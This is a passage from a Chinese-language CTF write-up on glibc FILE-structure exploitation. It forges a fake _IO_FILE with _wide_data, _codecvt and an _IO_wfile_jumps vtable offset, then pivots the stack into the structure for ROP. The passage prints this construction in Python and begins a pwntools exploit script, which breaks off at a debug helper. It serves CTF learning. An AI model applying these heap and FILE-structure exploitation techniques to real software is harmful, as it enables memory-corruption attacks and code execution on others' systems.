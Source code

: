 我们把这个成员伪造成一般的file就行了：FILE._codecvt = stdout_addr，这样就不用特地伪造wfile了

此时的wfile就是正常的file了，然后就去执行我们的指令了:FILE.chain(0x68) = leave_ret  

一般情况下这里直接写onegadget就行了，但是有时候要orw,此时就需要我们有能够执行rop的能力，所以这里我们这里来一次栈迁移

![](https://raw.githubusercontent.com/4ak5ra/image/main/执行.png)

在前面puts函数前戏的部分将栈变为了stdout，所以我们直接在file结构体里就能进行栈迁移了

![](https://raw.githubusercontent.com/4ak5ra/image/main/puts.png)

也就是把我们file结构体前几个变量当栈了，那直接在这里写fake_stack就行了,就是这几句

```python
FILE._IO_read_ptr = pop_rbp #flag我们不能动必须是0,所以再设置一次rbp
FILE._IO_read_end = heap_addr + 0x470 - 8
FILE._IO_read_base = leave_ret
```

总的就是这样
```python
FILE = IO_FILE_plus_struct()
FILE.flags = 0
FILE._IO_read_ptr = pop_rbp
FILE._IO_read_end = heap_addr + 0x470 - 8
FILE._IO_read_base = leave_ret
FILE._IO_write_base = 0
FILE._IO_write_ptr = 1
FILE._lock = heap_addr - 0xc30 +0x10
FILE.chain = leave_ret
FILE._codecvt = stdout_addr    #hex(0xe0-0x48)=0x98也就是这里
FILE._wide_data = stdout_addr - 0x48 #_IO_wdoallocbuf会取_wide_data(0xe0)作为新的_IO_FILE结构体，因为会有一个解引用，所以在上面覆盖为stdout_addr
FILE.vtable = libc.sym['_IO_wfile_jumps'] + libc_base - 0x20
```


后面就是正常的rop了


## 完整exp
```python
from pwn import *
from pwncli import *

context(os='linux', arch='amd64', log_level='debug')
context.terminal = ['tmux', 'sp', '-h']

sd = lambda s : p.send(s)
sl = lambda s : p.sendline(s)
sa = lambda n,s : p.sendafter(n,s)
sla = lambda n,s : p.sendlineafter(n,s)
rc = lambda n : p.recv(n)
rl = lambda : p.recvline()
ru = lambda s : p.recvuntil(s)
ra = lambda : p.recvall()
ia = lambda : p.interactive()
uu32 = lambda data : u32(data.ljust(4, b"\x00"))
uu64 = lambda data : u64(data.ljust(8, b"\x00"))

file_name = "./1"
libc=ELF("/work/ctf/scc/ret/libc.so.6")
def debug(filename = file_name,b_slice=[],is_pie=0,is_start = 1):
    global p
    b_string = ""
    if is_pie:
        for i in b_slice:
```